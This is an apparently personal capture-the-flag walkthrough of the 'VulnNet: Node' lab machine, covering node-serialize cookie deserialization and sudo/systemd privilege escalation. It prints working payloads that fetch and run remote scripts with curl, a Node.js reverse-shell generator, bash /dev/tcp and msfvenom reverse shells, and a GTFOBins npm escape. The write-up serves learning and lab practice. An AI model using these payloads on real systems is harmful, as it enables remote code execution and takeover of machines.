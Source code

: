 
# VulnNet-Node Helped-through

Name:  VulnNet: Node
Date:  28/1/2023
Difficulty: Easy 
Description:  After the previous breach, VulnNet Entertainment states it won't happen again. Can you prove they're wrong?
Better Description: [JAVASCRIPT](https://www.youtube.com/watch?v=Uo3cL4nrGOk)
Goals: 
- General learn machine for JS "experience" with Javascript; jwt abusing; node related madness
- Finish my other machines while this goes on
- Go the extra mile on the reverse shell
Learnt: 
- JAVASCRIPT; service file configuration; Echo > editor
- JS serialization is very particular and how to get those particulars
- sed wont let you have no temp file, but is useful for vi as the commit editor
Beyond Root:

- Test and research more booby traps 

![1080](rootwebpagedisclosurewazu.png)


## From Sometime ago...now in 2023 

I did do some of this machine up to user.txt it just never got finished and I need to finish this week beyond roots that got left behind before finishing XCT's [[Attended-Helped-Through]] this evening and hopeful doing maybe another HTB machine. [Alh4zr3d](https://www.youtube.com/watch?v=L_9UsWabfL4)'s Funday Sunday stream are very slow comparitive to the Thursday streams and therefore useful to finish the ever increasing list of Beyond Root stuff piling up. This wil be twinned with [[Hacker-vs-Hacker-Helped-Through]]

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128. 
![](ping.png)

```
Tilo Mitra
Eric Ferraiuolo
Reid Burke
Andrew Wooldridge
```

![](thecookie.png)
I have developed alot in a year - if we could session hijack.
```bash
echo "eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==" | base64 -d | sed 's/Guest/Admin/g' | base64 | sed 's/=/%3d/g'
```
Instead we are admin of nothing:
![1080](adminofnothing.png)

- Deserialize 
	- What serialization functions and libraries are in use?
	- Error on an invalid serialized object? - Send

![1080](errorsarehalfacookieworthofenumeration.png)
My original:
```json
{"username":"_$$ND_FUNC$$_require('child_process').exec('curl 10.8.73.218/shell.sh | bash', function(error, stdout, stderr) { console.log(stdout) })","isGuest":true,"encoding": "utf-8"}
```

Was missing from `_function` - but I also dont want npm - [From](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
```json
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.11.3.193/rshell.sh | bash', function(error, stdout, stderr) { console.log(stdout)});}()","isGuest":false,"encoding": "utf-8"}
```
I used curl to be cool, the reason it did not work the first time is the the port 80 on the Attackbox is in use. I Encoded in base64 with BurpSuite. Also I did not escape quotes 

```bash
curl -b 'InsidXNlcm5hbWUiOiJfJCRORF9GVU5DJCRfcmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ2N1cmwgaHR0cDovLzEwLjExLjMuMTkzL3NoZWxsLnNoIHwgYmFzaCcsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pIiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifSI%3D' http://10.10.204.7:8080
```

Al inform the stream that the main issue is that this not signed and the serialization is not checking the type of data.

![](chatgptasatranslator.png)

Enjoy the python3 version by ChatGPT
```python
import sys

# Uopdated original from https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py
# With the help of ChatGPT

if len(sys.argv) != 3:
    print("Usage: %s <LHOST> <LPORT>" % (sys.argv[0]))
    sys.exit(0)

IP_ADDR = sys.argv[1]
PORT = sys.argv[2]


def charencode(string):
    """String.CharCode"""
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

print("[+] LHOST = %s" % (IP_ADDR))
print("[+] LPORT = %s" % (PORT))
NODEJS_REV_SHELL = '''
var net = require('net');
var spawn = require('child_process').spawn;
HOST="%s";
PORT="%s";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
''' % (IP_ADDR, PORT)
print("[+] Encoding")
PAYLOAD = charencode(NODEJS_REV_SHELL)
print("eval(String.fromCharCode(%s))" % (PAYLOAD))
```

I used both Al's, the [ocortesl](https://ocortesl.github.io/thm-writeu), without need to get the npm package: 
- Pararenthesis! 
- `\t` and `\n` helped me but not al. 
```json
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.11.3.193/rshell.sh | bash', function(error, stdout, stderr) { console.log(stdout)});}()","isGuest":false,"encoding": "utf-8"}
```

I was really set on the making the original attempt work:
![](rshell.png)

## PrivEsc

NPM!
![](Irecentlydidthis.png)
Weirdness on the box
![](homedirforwwweirdness.png)

NPM without password on sudo can do this: [GTOFbins](https://gtfobins.github.io/gtfobins/npm/#sudo)
```bash
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo -u serv-manage /usr/bin/npm -C $TF --unsafe-perm i
```
Permission denied
![](permissiondenied.png)

Chmod granted - Idiomentary helps
```bash
chmod -R 777 /tmp 2>/dev/null
```

![](serv.png)

More sudo no passwording
![](moresudo.png)

The shell is weird as we have a tty inside of a tty.
```bash
find / -type f -name vulnnet-auto.timer 2>/dev/null
/etc/systemd/system/vulnnet-auto.timer
# find the job in the service above
find / -type f -name vulnnet-job.service 2>/dev/null
/etc/systemd/system/vulnnet-job.service
```

I botch the shell restart brain and box - Plus I need to time to think up all the mad linux battlegrounds trick I can think of. 

-On return -

First scape the tty inside a tty with background shell
```bash
cd /tmp
echo "bash -c 'exec bash -i &>/dev/tcp/10.11.3.193/1338 <&1'" > /srvshell.sh
chmod 777 /tmp/srvshell.sh
./srvshell.sh &
```

To avoid the exiting the nano issue with shell just use `sed` to create a replace command for vi
```bash
# See what is there
cat /etc/systemd/system/vulnnet-job.service
# Test changes
cat /etc/systemd/system/vulnnet-job.service | sed 's/ExecStart=\/bin\/df/ExecStart=\/dev\/shm\/rootshell/g'
# Tranfer a shell over for 
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.3.193 LPORT=4444 -f ELF > rootshell
# remember to chmod the shell!
vi /etc/systemd/system/vulnnet-job.service
:%s/ExecStart=\/bin\/df/ExecStart=\/dev\/shm\/rootshell/g
# Press enter
:wq
# Then PrivEsc
sudo /bin/systemctl stop vulnnet-auto.timer
sudo /bin/systemctl stop vulnnet-auto.timer
```

![](root.png)

## Beyond Root

See [[Attended-Helped-Through]] as it also has another just doing them the same day will be easier and get to Test on BSD linux and alternatives.